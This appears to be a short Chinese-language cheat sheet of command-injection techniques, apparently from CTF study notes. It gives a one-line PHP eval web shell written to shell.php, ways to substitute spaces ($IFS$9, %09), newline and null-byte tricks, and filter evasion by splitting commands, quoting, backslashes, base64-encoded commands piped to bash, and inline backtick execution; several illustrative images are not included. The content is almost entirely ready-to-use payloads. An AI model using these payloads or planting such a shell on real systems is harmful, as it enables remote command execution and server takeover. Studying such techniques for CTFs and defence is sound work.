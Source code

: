 - 3.写入文件

  - \>是覆写，>>是追加
- `echo "<?php @eval($_POST["cmd"]);?>">shell.php`

#### 绕过技巧

- <font color='red'>1.管道符</font>

  - linux![](https://api2.mubu.com/v3/document_image/b2056527-0ac9-41ea-a4c7-5686aa631e44-10191865.jpg)

  - windows![](https://api2.mubu.com/v3/document_image/4cb6c028-a1a3-4564-b692-4d2c65ddcc7a-10191865.jpg)

- <font color='red'>2.空格</font>

  - <  重定向符 or > <>
  - \$IFS$9
  - `$IFS`
  - `${IFS}`
  - %20
  - %09(需要php环境)
  
- <font color='red'>3.前后缀</font>

  - %0a 换行符(php环境)

  - %00 截断

  - %20%23

- **<font color='red'>4.黑名单绕过</font>**

  - 1.拼接：a=c;b=at;c=fl;d=ag;`$a$b $c$d`

  - 2.base64编码
    - echo "Y2F0IGZsYWc="|base64 -d (该编码为cat)
    
    - echo "Y2F0IGZsYWc="|base64 -d|bash (在bash被过滤的情况下可尝试sh)
    
  - 3.单双引号：c""at fl''ag
  
  - 4.反斜线：c\at fl\ag
  
  - 5.正则![](https://api2.mubu.com/v3/document_image/8f8ca449-d18f-497b-b5da-e05dba2b1b5e-10191865.jpg)
  
- <font color='red'>5.其他技巧</font>

  - 1.内联执行---就是将``或$()内命令的输出作为输入执行

    - cat\$IFS$9\`ls`

    - cat\$IFS$9$(ls)

  - 2.文件构造绕过

    利用ls -t和>以及换行符绕过长度限制执行命令(文件构造绕过)

    - ![](https://api2.mubu.com/v3/document_image/e587b377-1752-445d-9285-bea15b567c22-10191865.jpg)
